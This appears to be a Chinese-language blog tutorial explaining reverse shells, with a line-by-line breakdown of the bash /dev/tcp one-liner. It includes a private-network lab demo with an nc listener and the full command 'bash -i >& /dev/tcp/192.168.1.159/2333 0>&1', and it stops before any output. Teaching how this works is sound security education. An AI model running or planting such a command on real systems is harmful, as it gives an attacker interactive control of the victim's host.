


什么是反弹shell
通常情况下，攻击者通过漏洞获取的shell，都是由攻击者主动发起连接，连接到受害者的主机上。
反弹shell又称反向shell，即受害者主机发起连接，连接到攻击者的主机上。
为什么需要反弹shell
- 受害者主机上存在WAF，对主动连接发来的请求数据检测严格，而对向外发出的请求不进行检测或检测较少。
- 受害者的IP是动态的。
- 受害者主机在局域网内，从外网无法直接访问。
如何实现反弹shell
能够实现反弹shell的命令/代码千变万化，这里只选取最常见的形式，简单讲一下原理。
形式：
|
|
例如，攻击者IP 192.168.1.188，攻击者监听的端口 2333：
|
|
bash -i
bash不用解释了叭
-i参数表示开启交互式shell
>
重定向符，将前面的内容以覆盖的形式输出到后面。
重定向符还有：
>>表示追加到后面<<<|command1|command2，command1的输出作为command2的输入
>&/&>
混合输出，正确、错误都输出到一个地方。
/dev/tcp/ip/port
Linux下对socket网络连接的一个抽象
bash -i >& /dev/tcp/ip/port
将bash -i起的交互式shell绑定到后面的socket连接中。
0>&1
>&前面说过了，那这个0和1又分别代表什么呢？
0 标准输入
1 标准输出
2 错误输出
0>&1表示将标准输入重定向到标准输出。也就是说，bash -i这个交互式shell所要执行的命令，要从标准输出中读取，而标准输出是什么？刚才重定向到了连接到攻击者主机的socket上。也就是，命令输入来自攻击者，命令输出发送到攻击者，实现了所谓的反弹shell。
实验一下
攻击者IP 192.168.1.159
受害者IP 192.168.1.187
攻击者在主机上执行nc -l -p 2333 -vvv
在受害者主机上执行bash -i >& /dev/tcp/192.168.1.159/2333 0>&1

尝试执行一些命令：
